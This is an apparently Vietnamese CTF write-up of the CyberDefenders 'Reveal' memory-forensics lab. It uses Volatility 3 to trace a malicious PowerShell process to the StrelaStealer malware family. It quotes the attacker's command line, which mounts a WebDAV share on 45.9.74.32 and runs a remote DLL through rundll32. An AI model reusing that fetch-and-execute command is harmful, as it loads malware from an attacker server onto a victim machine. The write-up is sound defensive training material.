

Hello mọi người, cùng tôi và cậu ấy giải bài tập CTF nhé :3. Giới thiệu chút thì bài này là[Reveal Lab](https://cyberdefenders.org/blueteam-ctf-challenges/reveal/), thuộc loại Endpoint Forensics, mức dễ. Bài này thì cũng có [hướng dẫn chính thức](https://cyberdefenders.org/walkthroughs/reveal/) rồi, nên tôi và cậu ấy sẽ viết lại quá trình suy nghĩ của mình cũng như những thông tin chúng tôi thấy quan trọng. Bắt đầu nhé :3

## Ngữ cảnh

Bạn là một forensic investigator tại một tổ chức tài chính và SIEM của bạn gắn flag hoạt động bất thường trên máy trạm (workstation) có quyền truy cập vào dữ liệu tài chính nhạy cảm. Nghi ngờ đó là một hành vi vi phạm, bạn đã nhận được một file .dmp xuất từ bộ nhớ của máy bị xâm phạm. Nhiệm vụ của bạn là phân tích bộ nhớ cho các dấu hiệu xâm phạm, theo dõi nguồn gốc của hành vi bất thường và đánh giá phạm vi của nó để quản lý sự cố một cách hiệu quả.

---

## 🛠️ Công cụ sử dụng

Volatility 3 là một framework pháp y bộ nhớ được sử dụng rộng rãi trong điều tra số để phân tích dữ liệu từ RAM dumps. Công cụ này giúp các chuyên gia bảo mật kiểm tra và phát hiện dấu vết hoạt động đáng ngờ trên hệ thống.

### Cách Volatility 3 xử lý bộ nhớ

- **Xác định hệ điều hành:** Volatility 3 tự động nhận diện OS profile để diễn giải đúng cấu trúc dữ liệu trong bộ nhớ.
- **Sử dụng Symbol Tables:** Symbol tables giúp phân tích chính xác layout của bộ nhớ trên các phiên bản hệ điều hành khác nhau.

### Cách Volatility 3 sử dụng Plugins để phân tách dữ liệu

- **Plugin Execution:** Mỗi plugin đảm nhiệm một tác vụ cụ thể như liệt kê tiến trình, kiểm tra kết nối mạng, hoặc phân tích DLL đã tải.
- **Output và Phân Tích:** Plugins trích xuất thông tin có giá trị để giúp điều tra hành vi hệ thống và phát hiện mã độc.

### 📜 Cheatsheet có thể giúp bạn Volatility 3:

- [Ashley Pearson Cheatsheet](https://blog.onfvp.com/post/volatility-cheatsheet/)
- [Hacktricks Cheatsheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/basic-forensic-methodology/memory-dump-analysis/volatility-cheatsheet)

---

## 🔬 Quá trình phân tích

Là một người điều tra, bạn phải tự hỏi mình ba câu hỏi chính:

- **What** - Bạn đang tìm kiếm điều gì? (ví dụ: một loại tệp cụ thể, tên người dùng, ...)
- **Where** - Bạn sẽ tìm thấy bằng chứng tấn công ở đâu? (ví dụ: bộ nhớ, dựa trên máy chủ, mạng, ...)
- **How** - Bạn có thể làm thế nào để thao tác dữ liệu và xem nó?

### 🔍 Câu 1: Xác định tên của tiến trình độc hại giúp hiểu bản chất của cuộc tấn công. Tên của tiến trình độc hại là gì?

| Trả lời | powershell.exe |
| ------- | -------------- |

Thú thật với mọi người thì đây là lần đầu tôi và đụng tới file .dmp này và công cụ Volatility 3 lun á :v Trước giờ có nghe nhắc đến nhưng chưa có cơ hội trải nghiệm.

Cứ bắt tay vào làm trước đã, theo như hướng dẫn ở trên, tôi hỏi cậu ấy 3 câu hỏi:

- **Tìm cái gì:** quá trình độc hại - malicious process.
- **Tìm ở đâu:** Trong file .dmp được cung cấp, chắc chắn rồi :v
- **Làm thế nào:** Trước tiên phải xác định được tiến trình thế nào là độc hại và bình thường đã, theo gợi ý thì tôi có thể search ở trang [SANS](https://sansorg.egnyte.com/dl/WFdH1hHnQI), đây là trang tổng hợp đặc điểm nhận dạng của các tiến trình độc hại. Dò thủ công thì khó phát hiện và tốn thời gian, tôi cần ưu tiên tốc độ nên sẽ dùng Volatility3, câu lệnh sẽ là:

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.malfind`

Sau khi chạy câu lệnh thì có vài kết quả như RuntimeBroker, thunderbird và powershell. Thử nhập kết quả lần lượt thì powershell là đáp án chính xác. :v Thực tế thì sẽ phải kiểm tra mọi kết quả nhé mọi người.
.png>)
.png>)

### 🔍 Câu 2: Biết ID tiến trình cha (PPID) của tiến trình độc hại hỗ trợ theo dõi, phân cấp tiến trình và hiểu được luồng tấn công. PID cha của tiến trình độc hại là gì?

| Trả lời | 4120 |
| ------- | ---- |

- **Tìm cái gì:** PID cha của tiến trình độc hại.
- **Tìm ở đâu:** Trong file .dmp được cung cấp, chắc chắn rồi :v
- **Làm thế nào:** Volatility3 có hỗ trợ xác định cây tiến trình nên tôi sẽ tận dụng chức năng này, với lại tiến trình powershell.exe trên có PID là 3692 nên tôi sẽ lọc ra những thông tin liên quan tới PID này thôi.

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.pstree | grep "3692"`

.png>)

### 🔍 Q3: Tệp tin nào được sử dụng để thực thi payload giai đoạn hai?

| Trả lời | 3435.dll |
| ------- | -------- |

- **Tìm cái gì:** Tên file thực thi payload giai đoạn hai.
- **Tìm ở đâu:** Lệnh thực thi của powershell ban đầu.
- **Tìm thế nào:** Thật ra thì thông tin chi tiết của tiến trình cũng có hiển thị ở đáp án câu trước, nhưng mà hơi thừa thông tin và khó nhìn, nên thôi người ta có chức năng nào thì mình dùng đúng chức năng đó :v theo kết quả tìm được thì "rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry" là sử dụng rundll32.exe để chạy file 3435.dll, vì rundll32.exe là một tiện ích của Windows nên có thể tránh bị phát hiện.

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.cmdline | grep "3692"`

.png>)

### 🔍 Q4: Tên thư mục chia sẻ được truy cập trên máy chủ từ xa?

| Trả lời | davwwwroot |
| ------- | ---------- |

- **Tìm cái gì:** Tên thư mục chia sẻ được truy cập.
- **Tìm ở đâu:** tương tự như trên, vì câu lệnh vẫn chưa phân tích hết.
- **Tìm thế nào:** Trong câu lệnh lúc nãy có phần "net use \\45.9.74.32@8888\davwwwroot\" dễ nhận thấy được net trong network và dãy IP với port, nên có thể lờ mờ đoán được đây là kết nối tới máy chủ của attacker, và phần phía sau là đường dẫn thư mục.

### 🔍 Q5: Mã kỹ thuật MITRE ATT&CK liên quan đến phương thức thực thi này?

| Trả lời | T1218.011 |
| ------- | --------- |

- **Tìm cái gì:** Mã sub-technique của MITRE ATT&CK liên quan đến phương thức thực thi.
- **Tìm ở đâu:** dựa tên cách rundll32.exe được sử dụng để thực thi DLL từ xa và
- **Tìm thế nào:** truy cập vào trang [attack.mitre.org](https://attack.mitre.org/techniques/T1218/011/) để tìm, từ khóa là rundll32.exe.

### 🔍 Q6: Tên người dùng mà quá trình độc hại chạy dưới quyền của người đó?

| Trả lời | Elon |
| ------- | ---- |

- **Tìm cái gì:** Tài khoản người dùng.
- **Tìm ở đâu:** The Security Identifiers (SIDs) liên kết với quá trình.
- **Tìm thế nào:** rất may là Volatility cũng hỗ trợ chức năng tìm theo SIDs nên tôi sẽ sử dụng nó, và vẫn lọc thông tin theo PID 3692 của powershell.exe ban đầu. Theo kết quả thì thấy được người dùng là **Elon**, với SID S-1-5-21-3274565340-3808842250-3617890653-1001, quyền truy cập vào Domain, quyền Administrator và thậm chí là quyền hệ thống!?

`vol -f /home/vita/Downloads/192-Reveal.dmp windows.getsids.GetSIDs | grep "3692"`

.png>)

### 🔍 Q7: Tên của malware family?

| Trả lời | StrelaStealer |
| ------- | ------------- |

- **Tìm cái gì:** Tên của họ malware (họ hàng ấy nha) liên quan đến cuộc tấn công.
- **Tìm ở đâu:** Dữ liệu từ **VirusTotal** và các trang có Threat Intelligence reports.
- **Tìm thế nào:** kiểm tra địa chỉ IP độc hại 45.9.74.32 trên VirusTotal.
